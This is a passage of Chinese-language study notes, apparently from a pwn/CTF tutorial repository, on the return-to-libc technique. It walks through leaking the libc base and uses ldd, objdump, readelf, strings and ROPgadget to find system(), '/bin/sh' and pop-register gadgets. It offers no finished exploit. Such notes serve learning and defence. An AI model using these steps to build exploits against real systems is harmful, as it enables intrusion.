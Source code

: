 添加一个 retn 使栈对齐。

### Return to Libc

https://www.freebuf.com/news/182894.html
找对 libc 版本
https://www.cnblogs.com/bhxdn/p/14541441.html
https://www.cnblogs.com/ichunqiu/p/11248900.html
https://blog.csdn.net/Breeze_CAT/article/details/100086736

- 一般程序很少有 system, execve 或是后门程序
- 在 DEP 保护下无法执行填入的 shellcode

How to Return to libc

- 因为 ASLR，每次 libc 载入的位置都不同
- 我需要 leak libc 的 base address 来知道目 address
  ![](imgs/pwn_04_ropchain_06.jpg)

可以获得 libc 的地方有 stack, (heap, ) 跟 GOT
![](imgs/pwn_05_ret2libc_01.jpg)

[pwn_05_ret2libc_01](practise/pwn_05_ret2libc_01.c)

    ldd ret2libc
       linux-gate.so.1 (0xf7f2c000)
       libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d2d000) 基址
       /lib/ld-linux.so.2 (0xf7f2d000)

    objdump -d ret2libc
    找到 400550<puts@plt> 最右侧显示 # 601018
    objdump -T libc.so.6 | grep system
    00131c70 g    DF .text  00000066  GLIBC_2.0   svcerr_systemerr
    00044660 g    DF .text  00000037  GLIBC_PRIVATE __libc_system
    00044660  w   DF .text  00000037  GLIBC_2.0   system # system() 函数的偏移为 0x00044660 实际地址为 0xf7d2d000+0x00044660

​  
​ readelf -a libc-2.27.so | grep "puts"
​ 42: 00809c0 puts@@GLIBC_2.2.5
​  
​ strings libc-2.27.so -tx | grep "/bin/sh"
​ 1b3e9a /bin/sh
​  
​ ROPgadget --binary libc-2.27.so > g
​ cat g | grep "pop rdi"
​ 0x2155f : pop rdi ; ret
​ cat g | grep "pop rsi"
​ 0x23e6a : pop rsi ; ret
​ cat g | grep "pop rdx"
​ 0x01b96 : pop rdx ; ret
​ cat g | grep "pop rax"
​ 0x439c8 : pop rax ; ret
​ cat g | grep "syscall"
